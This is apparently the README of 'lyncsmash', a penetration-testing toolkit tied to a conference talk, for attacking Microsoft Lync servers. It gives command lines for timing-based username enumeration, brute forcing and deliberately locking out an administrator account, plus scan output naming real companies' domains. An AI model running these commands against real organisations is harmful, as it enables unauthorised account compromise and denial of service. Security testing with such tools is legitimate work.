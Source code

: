 #lyncsmash

a collection of tools to enumerate and attack Microsoft Lync installations

 * find_domain.sh  - an example of how to enumerate the domain for a Lync install
 * lync_smash.py - brute force/user enumeration timing attack in one
 * brute_force_ntlm.sh - an example of a medusa brute force attack against a Lync install


YouTube link: https://www.youtube.com/watch?v=v0NTaCFk6VI

Slide Deck: https://github.com/nyxgeek/lyncsmash/blob/master/DerbyCon%20Files/TheWeakestLync.pdf


## lync_smash.py
Timing attack to enumerate valid accounts

usage:

enumerating usernames via timing attack
```
python lync_smash.py enum -H 2013-lync-fe.contoso.com -U usernamelist.txt -d CONTOSO
```

discovering domains that are running Lync
```
python lync_smash.py discover -H url_list.txt
```
locking out a user account
```
python lync_smash.py lock -H 2013-lync-fe.contoso.com -u administrator -d CONTOSO
```

## lyncstink.py
Locate domains that are running Lync servers


When Lync is published externally it is often set up with a number of subdomains. These include:

 * lyncdiscover.domain.com
 * access.domain.com
 * meet.domain.com
 * dialin.domain.com


This script will check a domain to see if these exist. It also checks for a long random 
subdomain in order to exclude wildcarded domains.


### Example output

```
yahoo.com  - FOUND 1 - MAYBE LYNC
baidu.com  - FOUND 4 - THIS IS DEFINITELY LYNC
twitter.com  - FOUND 1 - MAYBE LYNC
qq.com  - FOUND 1 - MAYBE LYNC
ebay.com  - FOUND 1 - MAYBE LYNC
ask.com  - FOUND 1 - MAYBE LYNC
paypal.com  - FOUND 1 - MAYBE LYNC
microsoft.com  - FOUND 3 - ALMOST DEFINITELY LYNC
adobe.com  - FOUND 2 - PROBABLY LYNC
bbc.co.uk  - FOUND 3 - ALMOST DEFINITELY LYNC
cnn.com  - FOUND 2 - PROBABLY LYNC
netflix.com  - FOUND 1 - MAYBE LYNC
```
